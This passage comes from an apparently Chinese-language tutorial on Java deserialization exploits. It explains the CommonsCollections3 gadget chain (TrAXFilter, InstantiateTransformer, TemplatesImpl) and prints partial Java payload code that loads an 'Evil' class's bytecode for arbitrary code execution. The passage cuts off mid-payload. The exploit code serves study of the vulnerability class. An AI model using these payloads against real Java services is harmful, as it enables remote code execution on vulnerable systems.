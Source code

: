 ```java
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Reflection.setFieldValue(val, "val", tme); // 通过反射更改 val

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.test(val);
    }
}
```

## CommonsCollections3

cc3 相比于前面的 cc 链有两个特性, 第一是它引入了 TemplatesImpl 来执行任意 java 字节码, 第二是它将 InvokerTransformer 换成了 InstantiateTransformer, 并通过 TrAXFilter 来引发 TemplatesImpl 链

前面讲过 InstantiateTransformer 可以实例化某个类, 这里实例化的是 TrAXFilter

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231623073.png)

它的构造方法会调用 `templates.newTransformer()`, 正好能与 TemplatesImpl 链串起来

TemplatesImpl 在之前讲 ClassLoader 的时候分析过, 这里就不写了

payload 如下

```java
package com.example.CommonsCollections3;

import com.example.Evil;
import com.example.Reflection;
import com.example.Serialization;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections3 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
```
